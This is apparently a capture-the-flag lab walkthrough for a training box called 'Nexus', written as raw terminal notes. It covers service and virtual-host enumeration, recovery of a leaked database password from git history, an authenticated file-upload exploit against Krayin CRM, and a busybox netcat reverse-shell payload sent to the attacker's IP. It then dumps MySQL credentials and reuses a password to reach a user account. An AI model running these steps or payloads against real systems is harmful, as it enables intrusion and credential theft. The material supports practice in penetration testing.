

# Nexus

sudo nmap -sCV 10.129.234.54
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-07-21 10:46 EDT
Nmap scan report for 10.129.234.54
Host is up (0.011s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to [http://nexus.htb/](http://nexus.htb/)
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

cat /etc/hosts

10.129.234.54 nexus.htb

gobuster vhost -w /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil.txt -u [http://nexus.htb](http://nexus.htb/) --append-domain

Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url: [http://nexus.htb](http://nexus.htb/)
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil.txt
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
[+] Append Domain: true

Starting gobuster in VHOST enumeration mode

Found: git.nexus.htb Status: 200 [Size: 14474]

gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  -u [http://git.nexus.htb](http://git.nexus.htb/) -t 200

/Admin                (Status: 200)

whatweb [http://nexus.htbhttp://nexus.htb](http://nexus.htb/) [200 OK] Country[RESERVED][ZZ], Email[careers@nexus.htb,j.matthew@nexus.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.234.54], Script, Title[Nexus Energy Authority — Powering the Nation's Future], nginx[1.24.0]
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-p68fv4pqbe]─[~]
└──╼ [★]$ whatweb [http://git.nexus.htbhttp://git.nexus.htb](http://git.nexus.htb/) [200 OK] Cookies[i_like_gitea], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], HttpOnly[i_like_gitea], IP[10.129.234.54], Meta-Author[Gitea - Git with a cup of tea], Open-Graph-Protocol[website], PoweredBy[Gitea], Script[module], Title[Gitea: Git with a cup of tea], X-Frame-Options[SAMEORIGIN], nginx[1.24.0]



git log
commit 9b817fa4e073d12fc43952acb09f3067b2f17adf (HEAD -> main, origin/main, origin/HEAD)
Author: admin [admin@nexus.htb](mailto:admin@nexus.htb)
Date:   Thu Apr 23 18:05:22 2026 +0000

```
Upload files to "/"
```

commit 1615c465b74e5d7ad3162873382dd8b3869ca892
Author: admin [admin@nexus.htb](mailto:admin@nexus.htb)
Date:   Thu Apr 23 18:03:37 2026 +0000

```
Upload files to "/"
```

┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-p68fv4pqbe]─[~/krayin-docker-setup]
└──╼ [★]$ls
docker-compose.yml  documents
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-p68fv4pqbe]─[~/krayin-docker-setup]
└──╼ [★]$ git show 9b817fa4e073d12fc43952acb09f3067b2f17adf
commit 9b817fa4e073d12fc43952acb09f3067b2f17adf (HEAD -> main, origin/main, origin/HEAD)
Author: admin [admin@nexus.htb](mailto:admin@nexus.htb)
Date:   Thu Apr 23 18:05:22 2026 +0000

```
Upload files to "/"
```

diff --git a/.env b/.env
index cb7ccc3..5ae1bb2 100644
--- a/.env
+++ b/.env
@@ -2,7 +2,7 @@ APP_NAME='Krayin CRM'
APP_ENV=local
APP_KEY=
APP_DEBUG=true
-APP_URL=http://nexus.htb
+APP_URL=http://billing.nexus.htb
APP_TIMEZONE=Asia/Kolkata
APP_LOCALE=en
APP_CURRENCY=USD
@@ -15,7 +15,7 @@ DB_HOST=krayin-mysql
DB_PORT=3306
DB_DATABASE=krayin
DB_USERNAME=krayin
-DB_PASSWORD=N27xh!!2ucY04
+DB_PASSWORD=
DB_PREFIX=
BROADCAST_DRIVER=log
CACHE_DRIVER=file
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-p68fv4pqbe]─[~/krayin-docker-setup]
└──╼ [★]$ cat docker-compose.yml
version: '3.1'

services:
krayin-app:
image: webkul/krayin:latest
ports:
- "80:80"
depends_on:
- krayin-mysql
volumes:
- ./storage:/var/www/html/storage
environment:
APP_NAME: "Krayin CRM"
APP_ENV: local
APP_DEBUG: "true"
APP_URL: [http://test.htb](http://test.htb/)
APP_TIMEZONE: Asia/Kolkata
APP_LOCALE: en
APP_CURRENCY: USD
DB_CONNECTION: mysql
DB_HOST: krayin-mysql
DB_PORT: 3306
DB_DATABASE: krayin
DB_USERNAME: krayin
DB_PASSWORD: ${DB_PASSWORD}
restart: unless-stopped

krayin-mysql:
image: mysql:8.0
command: --default-authentication-plugin=mysql_native_password
environment:
MYSQL_DATABASE: krayin
MYSQL_USER: krayin
MYSQL_PASSWORD: ${DB_PASSWORD}
      MYSQL_ROOT_PASSWORD:${DB_ROOT_PASSWORD}
volumes:
- dbvolume:/var/lib/mysql
restart: unless-stopped

krayin-phpmyadmin:
image: phpmyadmin:latest
ports:
- "8080:80"
environment:
PMA_HOST: krayin-mysql
PMA_USER: krayin
PMA_PASSWORD: ${DB_PASSWORD}
restart: unless-stopped

volumes:
dbvolume:

git show 1615c465b74e5d7ad3162873382dd8b3869ca892
commit 1615c465b74e5d7ad3162873382dd8b3869ca892
Author: admin [admin@nexus.htb](mailto:admin@nexus.htb)
Date:   Thu Apr 23 18:03:37 2026 +0000

```
Upload files to "/"
```

diff --git a/.env b/.env
new file mode 100644
index 0000000..cb7ccc3
--- /dev/null
+++ b/.env
@@ -0,0 +1,54 @@
+APP_NAME='Krayin CRM'
+APP_ENV=local
+APP_KEY=
+APP_DEBUG=true
+APP_URL=http://nexus.htb
+APP_TIMEZONE=Asia/Kolkata
+APP_LOCALE=en
+APP_CURRENCY=USD
+VITE_HOST=
+VITE_PORT=
+LOG_CHANNEL=stack
+LOG_LEVEL=debug
+DB_CONNECTION=mysql
+DB_HOST=krayin-mysql
+DB_PORT=3306
+DB_DATABASE=krayin
+DB_USERNAME=krayin
+DB_PASSWORD=N27xh!!2ucY04
+DB_PREFIX=
+BROADCAST_DRIVER=log
+CACHE_DRIVER=file
+QUEUE_CONNECTION=sync
+SESSION_DRIVER=file
+SESSION_LIFETIME=120
+MEMCACHED_HOST=127.0.0.1
+REDIS_HOST=127.0.0.1
+REDIS_PASSWORD=null
+REDIS_PORT=6379
+MAIL_MAILER=smtp
+MAIL_HOST=mailhog
+MAIL_PORT=1025
+MAIL_USERNAME=null
+MAIL_PASSWORD=null
+MAIL_ENCRYPTION=null
[+MAIL_FROM_ADDRESS=laravel@krayincrm.com](mailto:+MAIL_FROM_ADDRESS=laravel@krayincrm.com)
+MAIL_FROM_NAME="${APP_NAME}"
+MAIL_DOMAIN=webkul.com
+MAIL_RECEIVER_DRIVER=sendgrid
+IMAP_HOST=imap.nexus.htb
+IMAP_PORT=993
+IMAP_ENCRYPTION=ssl
+IMAP_VALIDATE_CERT=true
+IMAP_USERNAME=username1
+IMAP_PASSWORD=password1
+AWS_ACCESS_KEY_ID=
+AWS_SECRET_ACCESS_KEY=
+AWS_DEFAULT_REGION=us-east-1
+AWS_BUCKET=
+PUSHER_APP_ID=
+PUSHER_APP_KEY=
+PUSHER_APP_SECRET=
+PUSHER_APP_CLUSTER=mt1
+MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
+MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
diff --git a/docker-compose.yml b/docker-compose.yml
new file mode 100644
index 0000000..bd2dc1f
--- /dev/null
+++ b/docker-compose.yml
@@ -0,0 +1,51 @@
+version: '3.1'
+
+services:

- krayin-app:
- image: webkul/krayin:latest
- ports:
- `- "80:80"`
- depends_on:
- `- krayin-mysql`
- volumes:
- `- ./storage:/var/www/html/storage`
- environment:
- `APP_NAME: "Krayin CRM"`
- `APP_ENV: local`
- `APP_DEBUG: "true"`
- `APP_URL: <http://test.htb>`
- `APP_TIMEZONE: Asia/Kolkata`
- `APP_LOCALE: en`
- `APP_CURRENCY: USD`
- `DB_CONNECTION: mysql`
- `DB_HOST: krayin-mysql`
- `DB_PORT: 3306`
- `DB_DATABASE: krayin`
- `DB_USERNAME: krayin`
- `DB_PASSWORD: ${DB_PASSWORD}`
- restart: unless-stopped
- 
- krayin-mysql:
- image: mysql:8.0
- command: --default-authentication-plugin=mysql_native_password
- environment:
- `MYSQL_DATABASE: krayin`
- `MYSQL_USER: krayin`
- `MYSQL_PASSWORD: ${DB_PASSWORD}`
- `MYSQL_ROOT_PASSWORD: ${DB_ROOT_PASSWORD}`
- volumes:
- `- dbvolume:/var/lib/mysql`
- restart: unless-stopped
- 
- krayin-phpmyadmin:
- image: phpmyadmin:latest
- ports:
- `- "8080:80"`
- environment:
- `PMA_HOST: krayin-mysql`
- `PMA_USER: krayin`
- `PMA_PASSWORD: ${DB_PASSWORD}`
- restart: unless-stopped
- 

+volumes:

- dbvolume:
diff --git a/documents b/documents
new file mode 100644
index 0000000..06d7405
Binary files /dev/null and b/documents differ


creds for krayin instance

j.matthew@nexus.htb:N27xh!!2ucY04

[https://www.exploit-db.com/exploits/52629](https://www.exploit-db.com/exploits/52629)

vi shell.php
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-gcixx7zxex]─[~]
└──╼ [★]$python3 krayin.py -t <http://billing.nexus.htb> -u j.matthew@nexus.htb -p 'N27xh!!2ucY04' -f shell.php
[+] File uploaded successfully.
Path to file: <http://billing.nexus.htb/storage/tinymce/478aed6a54d0d7fcebededf6231921a3.php>
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-gcixx7zxex]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.234.54 48572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@nexus:~/krayin/storage/app/public/tinymce$ ^Z
[1]+  Stopped                 nc -lvnp 4444
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-gcixx7zxex]─[~]
└──╼ [★]$ stty raw -echo; fg
nc -lvnp 4444

www-data@nexus:~/krayin/storage/app/public/tinymce$ export TERM=xterm

busybox%20nc%2010.10.14.80%204444%20-e%20%2Fbin%2Fbash

www-data@nexus:~/krayin$ mysql -h localhost -u krayin -p'y27xb3ha!!74GbR'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4617
Server version: 8.0.45-0ubuntu0.24.04.1 (Ubuntu)

Copyright (c) 2000, 2026, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use krayin;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_krayin       |
+------------------------+
| activities             |
| activity_files         |
| activity_participants  |
| attribute_options      |
| attribute_values       |
| attributes             |
| core_config            |
| countries              |
| country_states         |
| datagrid_saved_filters |
| email_attachments      |
| email_tags             |
| email_templates        |
| emails                 |
| failed_jobs            |
| groups                 |
| import_batches         |
| imports                |
| job_batches            |
| jobs                   |
| lead_activities        |
| lead_pipeline_stages   |
| lead_pipelines         |
| lead_products          |
| lead_quotes            |
| lead_sources           |
| lead_stages            |
| lead_tags              |
| lead_types             |
| leads                  |
| marketing_campaigns    |
| marketing_events       |
| migrations             |
| organizations          |
| person_activities      |
| person_tags            |
| personal_access_tokens |
| persons                |
| product_activities     |
| product_inventories    |
| product_tags           |
| products               |
| quote_items            |
| quotes                 |
| roles                  |
| tags                   |
| user_groups            |
| user_password_resets   |
| users                  |
| warehouse_activities   |
| warehouse_locations    |
| warehouse_tags         |
| warehouses             |
| web_form_attributes    |
| web_forms              |
| webhooks               |
| workflows              |
+------------------------+
57 rows in set (0.00 sec)

mysql> select * from users;
+----+-------+---------------------+--------------------------------------------------------------+--------+-----------------+---------+----------------+---------------------+---------------------+-------+
| id | name  | email               | password                                                     | status | view_permission | role_id | remember_token | created_at          | updated_at          | image |
+----+-------+---------------------+--------------------------------------------------------------+--------+-----------------+---------+----------------+---------------------+---------------------+-------+
|  1 | james | j.matthew@nexus.htb | $2y$10$ez0AouNyeP4NmwjLSV5vCOAJxMLi.6fCKmGC3M6Ve5xJmWJOLRJ5i |      1 | global          |       1 | NULL           | 2026-04-23 04:20:11 | 2026-04-23 04:20:11 | NULL  |
+----+-------+---------------------+--------------------------------------------------------------+--------+-----------------+---------+----------------+---------------------+---------------------+-------+
1 row in set (0.00 sec)

jones:y27xb3ha!!74GbR

www-data@nexus:~/krayin$ su jones
Password:
jones@nexus:/var/www/krayin$ id
uid=1000(jones) gid=1000(jones) groups=1000(jones),100(users)
jones@nexus:/var/www/krayin$

jones@nexus:~$ls
user.txt
jones@nexus:~$ cat user.txt
b36d3e9b3339d084bdf0b9d48e0d6460